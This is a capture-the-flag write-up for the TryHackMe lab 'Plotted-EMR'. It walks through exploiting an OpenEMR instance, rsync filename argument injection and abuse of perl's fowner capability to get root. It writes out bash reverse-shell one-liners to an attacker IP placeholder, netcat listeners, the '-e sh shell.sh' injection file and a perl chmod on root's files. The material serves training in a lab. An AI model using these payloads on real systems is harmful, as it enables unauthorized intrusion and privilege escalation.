 # 📝 Writeup – Plotted-EMR (TryHackMe)

---

## TL;DR
Found an exposed web app with OpenEMR site creation + a tuned public exploit to get RCE as `www-data`, abused a cron/rsync job to spawn a `plot_admin` shell, then leveraged a file capability (`fowner` on `perl`) to chmod `/root/root.txt` and read the root flag. Nice mix of app, filesystem and capability abuse.

---

## ENUMERATION
Start with the usual scan:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Focused scan (what I used):

```bash
nmap -p21,22,80,5900,8890 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:
![nmap](screenshots/plot_scan.png)

---

### PORT 21 — FTP

Anonymous FTP allowed. I browsed the dirs and found a hint file telling me to check admin — keep that in your head for later.

```bash
ftp <IP>
# anonymous login
ls -la
get <file>
```

Screenshots:
![ftp](screenshots/plot_ftp.png)
![ftp](screenshots/plot_hint.png)

---

### PORT 80 — web & dirbusting

Dirbusting (`ffuf`) found `/admin`, `/shadow`, `/passwd` — each contained base64 blobs. One pointed at a YouTube hint (no direct exploit there). Use ffuf:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ
```

Screenshots:
![ffuf1](screenshots/plot_ffuf1.png)
![b64](screenshots/plot_b64.png)

---

### PORT 5900 — MySQL (odd port)

A MySQL instance was accepting `admin` with no password. It had DB access — useful later to make a site that OpenEMR will use.

```bash
mysql -P5900 -h <IP> -u admin
# SHOW DATABASES; USE mydb; SHOW TABLES; SELECT * FROM users;
```

Screenshot:
![mysql](screenshots/plot_mysql.png)

---

### PORT 8890 — OpenEMR portal

Found `/portal` → OpenEMR login and an `/portal/admin.php` using ffuf (which shows the OpenEMR version). There’s a known RCE for that version but it requires a logged-in site user. Good news: there's an option to add new site, we have DB access to create the site for ourselves.
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/portal/FUZZ -e .php,.html
```    
I:

* Created a new site id (`test2`) via admin.php → Config Site (using the DB I had access to).
* Logged in to the new site (`test2`).
* Took the public PoC (searchsploit) and fixed a couple of strings — mostly the site-specific URL and base64 handling — then ran it with a reverse-shell payload.

Screenshots:
![ffuf2](screenshots/plot_ffuf2.png)
![admin.php](screenshots/plot_admin.png)
![searchsploit](screenshots/plot_searchsploit.png)
![fix](screenshots/plot_fix1.png)
![fix](screenshots/plot_fix2.png)

Exploit/Reverse shell steps:

```bash
# on attacker:
nc -nvlp <PORT>

# exploit command:
bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'
```

This gave me a `www-data` shell.

---

## EXPLOITATION — www-data → plot_admin (rsync trick)

First flag was in the webroot(/var/www). While poking around I found a cron job in `/etc/crontab` that runs an `rsync -t * plot_admin@127.0.0.1:~/backup` from `/var/www/html/portal/config`. Important notes:

* `rsync -t *` passes all filenames(excluding hidden) in current directory to `rsync`.
* `rsync` accepts `-e <program>` to specify the remote-shell connection program(default ssh). If one of the filenames starts with `-e`, it will be interpreted as an option by `rsync`. We can abuse this by creating a file whose name looks like `-e sh shell.sh` so that `rsync` treats `-e` as its option, `sh` as the remote-shell program with `shell.sh` as its argument. So `shell.sh` ends up being executed locally by that shell — classic argument-injection via filename.
* `sh shell.sh` runs the interpreter sh and gives it shell.sh as the script argument. Because you invoked the interpreter explicitly, you don’t need a shebang(!#/usr/sh) in shell.sh. You also don’t need `chmod +x` — the interpreter will read the file even if it’s not executable.      

Steps I used (run as `www-data` in `/var/www/html/portal/config` — adjust paths if needed):

```bash
# create the malicious filename (the leading -- prevents touch from treating it as option)
touch -- '-e sh shell.sh'
# create the payload (use double quotes outside, single inside to avoid shell break)
echo "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > shell.sh
```

Start listener on attacker and wait for cron/rsync to run and trigger the callback:

```bash
nc -nvlp <PORT>
# wait to receive connection
```

Once cron runs, rsync interprets the injected `-e` option and runs `sh shell.sh`, which executes our reverse shell and gives `plot_admin`.

Screenshot:
![presc](screenshots/plot_presc.png)

---

## plot_admin → root (capabilities abuse)

`sudo -l` required password for common sudo; no suid binaries to exploit. I looked for file capabilities:

```bash
getcap -r / 2>/dev/null
```

I found `perl` with `fowner` capability (file ownership-related capability). `fowner` allows certain file operations normally requiring ownership; in practice we can use it to change file permissions of files we don't own (including root files). So we can chmod `/root/root.txt` to be readable.

Example (run as `plot_admin`):

```bash
# safe single-quote usage so shell doesn't expand anything
perl -e 'chmod 0777, "/root/root.txt";'
# then:
cat /root/root.txt
```

This prints the root flag.

Screenshots:
![fowner](screenshots/plot_fowner.png)
![root](screenshots/plot_root.png)

---

## Commands recap (quick)

```bash
# nmap
nmap -p- --min-rate 2000 -vv -T4 <IP>
nmap -p21,22,80,5900,8890 -sC -sV -vv -oN scan.nmap <IP>

# ffuf
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ -e .php,.html

# mysql
mysql -P5900 -h <IP> -u admin

# exploit OpenEMR (after fixing PoC)
python3 exploit.py "http://<IP>/portal" -u <username> -p <passwd> -c <command>

# on attacker
nc -nvlp <PORT>

# rsync trick (on box, from /var/www/html/portal/config)
touch -- '-e sh shell.sh'
echo "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > shell.sh

# capability exploit (as plot_admin)
perl -e 'chmod 0777, "/root/root.txt";'
cat /root/root.txt
```

---

## References

* OpenEMR public PoCs (Exploit-DB / GitHub).
* rsync docs (`man rsync`) — `-e` option.
* [Linux capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities) overview & `getcap` usage.

---

## Wrap-up

Plotted-EMR gave a tasty chain: make a site, get RCE, abuse a scheduled rsync with clever filename injection, then leverage capabilities to grab root.

---
